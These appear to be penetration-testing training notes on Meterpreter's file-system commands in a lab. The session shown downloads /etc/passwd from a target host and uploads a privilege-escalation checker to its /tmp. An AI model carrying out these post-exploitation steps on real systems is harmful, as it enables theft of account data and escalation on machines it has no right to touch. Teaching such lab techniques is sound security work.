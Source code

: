 ```
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory
...   
```
+ Above shows us various commands that we can use to upload, download, or manage files on the local and target system
+ Commands with "`l`" as prefix operate on the local system; in our case our Kali VM
+ For example, we can use these commands to change the directory to where we want to download or upload files

Let's download **/etc/passwd** from the target machine to our Kali system
+ For this, we'll change the local directory on our Kali machine to **/home/kali/Downloads** first
+ Then, we'll enter the **download** command and **/etc/passwd** as argument:
```
meterpreter > lpwd
/home/kali

meterpreter > lcd /home/kali/Downloads

meterpreter > lpwd
/home/kali/Downloads

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/kali/Downloads/passwd
[*] Downloaded 1.74 KiB of 1.74 KiB (100.0%): /etc/passwd -> /home/kali/Downloads/passwd
[*] download   : /etc/passwd -> /home/kali/Downloads/passwd

meterpreter > lcat /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
...
```
+ Above shows that we could successfully download **/etc/passwd** to our local machine

Next, let's assume we want to run _unix-privesc-check_ like in a previous Module to find potential privilege escalation vectors
+ Let's upload the file to **/tmp** on the target system
```
meterpreter > upload /usr/bin/unix-privesc-check /tmp/
[*] uploading  : /usr/bin/unix-privesc-check -> /tmp/
[*] uploaded   : /usr/bin/unix-privesc-check -> /tmp//unix-privesc-check

meterpreter > ls /tmp
Listing: /tmp
=============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100644/rw-r--r--  36801    fil   2022-08-08 05:26:15 -0400  unix-privesc-check
```